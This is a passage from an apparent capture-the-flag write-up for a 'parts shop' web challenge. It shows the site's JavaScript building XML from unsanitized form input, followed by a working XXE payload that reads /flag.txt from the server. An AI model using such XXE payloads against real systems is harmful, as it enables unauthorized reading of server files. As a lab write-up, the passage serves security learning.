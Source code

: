 hmmm seems like an interesting lead on part id, let's enum through.... 
    - tried https://uscybercombine-s4-parts-shop.chals.io/parts?id=4 and etc and URL params ... no luck


4. Noticed JS on /blueprints POST payload 
    - seems to be .... printing almost exactly what was being sent... No sanitization of XML... **BINGO!!**

```js
  <script>
    function generateXML(event) {
      event.preventDefault();

      var name = document.getElementById('name').value;
      var author = document.getElementById('author').value;
      var image = document.getElementById('image').value;
      var description = document.getElementById('description').value;

      var payload = '<?xml version="1.0" encoding="UTF-8"?>\n' +
        '<part>\n' +
        '  <name>' + name + '</name>\n' +
        '  <author>' + author + '</author>\n' +
        '  <image>' + image + '</image>\n' +
        '  <description>' + description + '</description>\n' +
        '</part>';

      fetch("/blueprint", {
        method: "POST",
        body: payload,
      })
      .then(res => {
        if (res.redirected) {
          window.location.href = res.url;
        } else if (res.status == 400) {
          document.getElementById("error").innerHTML = "Please fill out all required fields.";
        }
      })
      .catch(error => console.error(error));
    }
  </script>
```


5. Intercept POST payload of /blueprints page with XXE and a custom 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE part [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<part>
  <name>&xxe;</name>
  <author>Test</author>
  <image>Test</image>
  <description>Test</description>
</part>

```
